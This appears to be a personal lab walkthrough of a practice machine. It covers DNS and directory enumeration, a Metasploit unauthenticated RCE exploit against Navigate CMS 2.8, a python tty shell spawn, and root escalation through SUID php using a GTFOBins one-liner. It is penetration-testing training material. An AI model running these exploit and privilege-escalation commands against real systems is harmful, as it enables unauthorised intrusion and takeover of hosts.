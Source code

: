 80 - 10.0.2.154 - 15/02/2024
Default Nginx page

Directory busting with [[cheat#ffuf]]  + [[cheat#Nikto]] + [[cheat#dirb]]
We found a /secret
`/secret` contains a file -->  that tells that here we con't find anything

53 - 10.0.2.154:

### Enumerating DNS
We'll use [[cheat#dnsrecon]] to gather some info about the victim host
`dnsrecon -r 127.0.0.1/24 -n 10.0.2.154 -d blabla`
![[Pasted image 20240216094823.png]]
as you can see -->  we have found a <span style="color:#00b050">DNS POINTER record</span>:
                 record that maps an IP address to the domain name. 
                 It’s often called a "reverse DNS entry"

How can we visit this domain name:
we add inside our `/etc/hosts` file -->  1 line with the victim ip + the domain
![[Pasted image 20240216095524.png]]

now:
- close your browser
- try to connect http://blackpearl.tcm
- we find a php page
- nothing interesting

but:
we can do directory bursting again on http://blackpearl.tcm

### ffuf
`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ_VARIABLE -u http://blackpearl.tcm/FUZZ_VARIABLE`
![[Pasted image 20240216115329.png]]
we found 1 subdirectory -->  navigate
=>
let's connect to http://blackpearl.tcm/navigate
=>
we'll find a NAVIGATE CMS login page
in the bottom-right corner we can see the version -->  navigate cms v2.8
![[Pasted image 20240216115428.png]]
=>
search on google for -->  - navigate cms default credentials 
				     - [navigate cms exploit](https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/)

We have found an exploit for -->   <span style="color:#00b050">Unauthenticated Remote Code Execution</span> 
								 (using metasploit)

## Metasploit
`msfconsole`
`use exploit/multi/http/navigate_cms_rce`
`options`
`set RHOSTS 10.0.2.154 `        victim ip
`set VHOST blackpearl.tcm`
`run`

=>
<span style="color:#00b050">we have a shell</span><span style="color:#00b050">!</span> 
type `shell`
![[Pasted image 20240216115925.png]]
> [!WARNING] 
> We don't have a normal shell:
> - it is anyway a shell that works  (try to write command whoami for example)
> - but it's difficult to read
> =>
> we need to spawn a tty shell

## Spawn a tty shell
Search on google for -->  [spawning a tty shell](https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell)
you can spawn the shell with python
BUT:
you need to check if the system has python:
`which python`
`python -c 'import pty; pty.spawn("/bin/bash")'`
![[Pasted image 20240216120024.png]]
<span style="color:#00b050">now we have a normal shell</span>:
=>
- let's find some privilege escalation
- try sudo -l       (it doesn't exist)
- try use [[cheat#linpeas|linpeas]]
- ![[Pasted image 20240216120521.png]]

## Privilege Escalation
we'll use [[cheat#linpeas|linpeas]]
run it 
we'll see that --> there are some programs that have set the <span style="color:#00b050">SUID bit</span>
![[Pasted image 20240216114009.png]]

### SUID
to check better the commands that have the s bit we can use this:
`find / -type f -perm -4000 2>/dev/null`
![[Pasted image 20240216120747.png]]
now we can use -->  [[cheat#GTFOBins|GTFOBins]]
                 to find if 1 of these commands have vuln to do privilege escalation
=>
- go to GTFOBins
- select SUID 
- search for one of the commands that we found
- we find -->  <span style="color:#00b050">php</span>
![[Pasted image 20240216114514.png]]
=>
substitute ./php with our path to php and run the last line
`/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"`

if we check the id -->  we'll see that the <span style="color:#00b050">Effective UID is root</span>
![[Pasted image 20240216120935.png]]

<span style="color:#00b050">finish :)</span>
![[Pasted image 20240216121230.png]]
